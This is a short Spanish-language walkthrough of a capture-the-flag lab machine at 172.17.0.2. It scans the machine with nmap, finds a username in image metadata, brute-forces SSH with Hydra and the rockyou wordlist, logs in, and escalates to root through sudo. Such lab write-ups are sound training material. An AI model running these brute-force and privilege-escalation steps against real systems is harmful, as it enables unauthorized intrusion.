 `ping 172.17.0.2`
#### hacemos ping para comprobar si la maquina esta prendida
[![ping.png](https://i.postimg.cc/MGv2rc2Z/ping.png)](https://postimg.cc/zLZcyGG4)

`nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 172.17.0.2`
#### Hacemos un escaneo con Nmap para 
[![Nmap.png](https://i.postimg.cc/nhWwr0gZ/Nmap.png)](https://postimg.cc/5Xwmkqfk)

como podemos ver tenemos un puerto ssh y uno http la version del ssh no es vulnerabla asi que busquemos que hay en la web de la ip

#### Contenido de la pagina
[![kinder.png](https://i.postimg.cc/0NB6LJzV/kinder.png)](https://postimg.cc/B82QFbcF)

nos encontramos una imagen de un huevo kinder asi que lo descargamos para ver si tiene algo interesante oculto

`exiftool imagen.jpeg`
#### Vemos el contenido de la imagen 
[![secreto.png](https://i.postimg.cc/ZYFbNdJX/secreto.png)](https://postimg.cc/14X1h4nK)

vemos que el titulo de la imagen es borazuwarah y la contraseña esta en blanco 

`hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`
#### Fuerza bruta con Hydra
[![hydrah.png](https://i.postimg.cc/BZMWscSZ/hydrah.png)](https://postimg.cc/K4kpDT3C)

`ssh borazuwarah@172.17.0.2`
#### Entramos mediante SSH
[![sshborazu.png](https://i.postimg.cc/5ykkzgyw/sshborazu.png)](https://postimg.cc/dZrBP881)
estamos dentro

`sudo -l`
#### Ver que permisos tenemos
[![l.png](https://i.postimg.cc/rpcgK3jB/l.png)](https://postimg.cc/rDn5Hhvj)
vemos que tenemos permisos para elevar a usuario root

`sudo su`
#### nos volvemos root
[![sudosu.png](https://i.postimg.cc/KjdDFH4s/sudosu.png)](https://postimg.cc/WqwkwSGM)
ponemos la contraseña que encontramos y finalmente somos root


